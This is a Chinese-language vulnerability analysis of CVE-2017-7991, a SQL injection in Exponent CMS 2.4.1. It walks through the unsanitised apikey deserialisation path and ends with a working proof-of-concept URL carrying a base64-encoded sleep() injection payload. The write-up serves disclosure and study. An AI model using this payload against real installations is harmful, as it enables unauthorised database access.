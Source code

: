 ```yaml
---
title: '[CVE-2017-7991]Exponent CMS 2.4.1 SQL Injection分析'
date: 2017-05-12 07:42:07
tags: [代码审计,SQL注入,漏洞分析]
categories: Web安全
---
```


Exponent CMS是一款开源的CMS，其2.4.1版中存在sql注入

本文首发于：[[CVE-2017-7991]Exponent CMS 2.4.1 SQL Injection分析](https://chybeta.github.io/2017/05/12/CVE-2017-7991-Exponent-CMS-2-4-1-SQL-Injection%E5%88%86%E6%9E%90/)

<!-- more -->
# 漏洞
注入点在 /framework/modules/eaas/controllers/eaasController.php 中。如下：

```php
public function api() {
	if (empty($this->params['apikey'])) {
		$_REQUEST['apikey'] = true;  // set this to force an ajax reply
		$ar = new expAjaxReply(550, 'Permission Denied', 'You need an API key in order to access Exponent as a Service', null);
		$ar->send();  //FIXME this doesn't seem to work correctly in this scenario
	} else {
		$key = expUnserialize(base64_decode(urldecode($this->params['apikey'])));
		$cfg = new expConfig($key);
		$this->config = $cfg->config;
		if(empty($cfg->id)) {
			$ar = new expAjaxReply(550, 'Permission Denied', 'Incorrect API key or Exponent as a Service module configuration missing', null);
			$ar->send();
		} else {
			if (!empty($this->params['get'])) {
				$this->handleRequest();
			} else {
				$ar = new expAjaxReply(200, 'ok', 'Your API key is working, no data requested', null);
				$ar->send();
			}
		}
	}
}
```

api()中，先检测参数`apikey`　是否为空，若不为空，则进入else分支。在分支中，先对参数`apikey`进行一次`urldecode`,接着进行 `base64_decode`,最后进行一次反序列化`expUnserialize`，在`expUnserialize`中存在一次小小的过滤：
```php
function expUnserialize($serial_str) {
    if ($serial_str === 'Array') return null;  // empty array string??
    if (is_array($serial_str) || is_object($serial_str)) return $serial_str;  // already unserialized
//    $out1 = @preg_replace('!s:(\d+):"(.*?)";!se', "'s:'.strlen('$2').':\"$2\";'", $serial_str );
    $out = preg_replace_callback(
        '!s:(\d+):"(.*?)";!s',
        create_function ('$m',
            '$m_new = str_replace(\'"\',\'\"\',$m[2]);
            return "s:".strlen($m_new).\':"\'.$m_new.\'";\';'
        ),
        $serial_str );
//    if ($out1 !== $out) {
//        eDebug('problem:<br>'.$out.'<br>'.$out1);
//    }
```

它会把 经过`base64_decode`后的`$apikey` 中的双引号加上斜杠。但是对于单引号，它没有进行处理。在进行`expUnserialize`之后，赋值给`$key`，并在之后实例化一个 `expConfig`对象。`expConfig`部分代码如下：

```php
class expConfig extends expRecord {
	protected $table = 'expConfigs';

	function __construct($params=null) {
		global $db;

        if (!is_array($params)) {
            $this->location_data = serialize($params);
            parent::__construct($db->selectValue($this->table, 'id', "location_data='".$this->location_data."'"));
        } else {
            parent::__construct($params);
        }
	....
```
在 framysqli\core\subsystems\database\mysqli.php 中，可以看到关于`selectValue`的定义：

```php
function selectValue($table, $col, $where=null) {
	if ($where == null)
		$where = "1";
	$sql = "SELECT " . $col . " FROM `" . $this->prefix . "$table` WHERE $where LIMIT 0,1";
	$res = @mysqli_query($this->connection, $sql);

	if ($res == null)
		return null;
	$obj = mysqli_fetch_object($res);
	if (is_object($obj)) {
		return $obj->$col;
	} else {
		return null;
	}
}
```

可以看到，在检查完`$params`是否是数组后，将我们传入的`$params`序列化后直接插入到了数据库查询语句中,未作任何过滤和检测。加上之前并未对单引号进行处理，因此我们可以利用单引号，对 `location_data='".$this->location_data."'` 中的单引号进行闭合。


# POC

```
http://localhost:2500/exponent241/index.php
?module=eaas
&action=api
&apikey=czoxNjoiYWFhJ29yIHNsZWVwKDIpIyI7
```
其中 base64_decode("czoxNjoiYWFhJ29yIHNsZWVwKDIpIyI7") = s:16:"aaa'or "'sleep(2)#

查看 mysql.log ，可以发现成功注入。
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170512/sqlinject/1.jpg?raw=true)
运行的 sql语句 为：

```mysql
SELECT id FROM `exponent_expConfigs` WHERE location_data='s:19:"aaa'or \"'sleep(2)#";' LIMIT 0,1
```
可以看到单引号被成功闭合。
